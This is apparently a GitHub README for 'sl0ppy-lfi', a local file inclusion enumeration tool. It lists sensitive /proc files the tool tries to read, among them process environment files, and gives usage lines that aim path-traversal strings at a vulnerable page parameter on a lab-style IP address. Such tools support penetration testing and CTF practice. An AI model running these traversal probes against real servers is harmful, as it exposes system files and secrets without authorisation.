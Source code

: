 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* /proc/loginuid
* /proc/maps
* /proc/patch-state
* /proc/numa_maps
* /proc/stack
* /proc/personality
* /proc/pagemap
* /proc/cgroup
* /proc/sched
* /proc/mounts
* /proc/status
* /proc/environ
* /proc/shedstat
* /proc/meminfo
* /proc/self/
* /proc/self/stat
* /proc/self/environ
* /proc/self/maps/
* /proc/self/fd/
* and more
# Usage 

# Enum all
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=` 
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../` 

# enum specific stuff like only libc
* `./sl0ppy-lfi http://10.10.11.154/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"` 

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
